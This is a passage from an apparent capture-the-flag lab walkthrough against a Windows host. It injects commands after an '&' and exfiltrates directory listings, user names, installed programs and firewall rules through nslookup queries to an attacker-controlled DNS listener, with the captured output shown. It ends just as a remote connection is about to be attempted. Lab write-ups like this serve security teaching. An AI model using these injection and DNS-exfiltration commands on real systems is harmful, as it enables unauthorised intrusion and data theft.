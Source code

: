 ~~~

From now on, we can proceed our enumeration.<br>
For example, current directory is "C:\windows\system32\inetsrv"
{% highlight shell %}
# 10.10.14.23 & for /f %i in ('cd') do nslookup %i 10.10.14.23
[+] Listening for events...
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .c.windowssystem32inetsrv
{%endhighlight %}

User enumeration:
{% highlight shell %}
# 10.10.14.23 & for /f %i in ('dir /B "C:\Users"') do nslookup %i 10.10.14.23
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Administrator
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .alan
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .jorge
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Public
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .rupal
{%endhighlight %}

Installed Program enumeration:
{% highlight shell %}
# 10.10.14.23 & for /f %i in ('dir /B "C:\Program Files (x86)"') do nslookup %i 10.10.14.23
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Common
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Internet
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Microsoft
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Microsoft
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Microsoft.NET
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .MSBuild
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .OpenSSL.v1.1.0
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Reference
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Windows
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .WindowsPowerShell
{%endhighlight %}

Interesting information is that we have openssl v1.1.0 installed.

{% highlight shell %}
# 10.10.14.23 & netsh advfirewall firewall show rule name=all | findstr "Rule Name:" > C:\Users\Public\Desktop\Shortcuts\fw.txt
# 10.10.14.23 & for /f %i in ('dir /B "C:\Users\Public\Desktop\Shortcuts"') do nslookup %i 10.10.14.23
# 10.10.14.23 & for /f "tokens=1,2,3,4,5,6,7,8" %a in ('type C:\users\public\desktop\shortcuts\fw.txt') do nslookup %a.%b.%c.%d.%e.%f.%g.%h 10.10.14.23
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Rule.Name.Allow.ICMP.Reply
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Rule.Name.Allow.ICMP.Request
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Rule.Name.Allow.UDP.Port.53
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Rule.Name.Allow.TCP.Ports.73.136
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Rule.Name.Allow.Port.80.8080
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Rule.Name.Allow.ICMP.Request
[*] [DNS] Poisoned answer sent to: 10.10.10.106     Requested name: .Rule.Name.Allow.ICMP.Reply
{%endhighlight %}

According to this information, we have 2 ports for connection 73, 136.<br>
Then, try to have a remote connection

{% highlight shell %}
~~~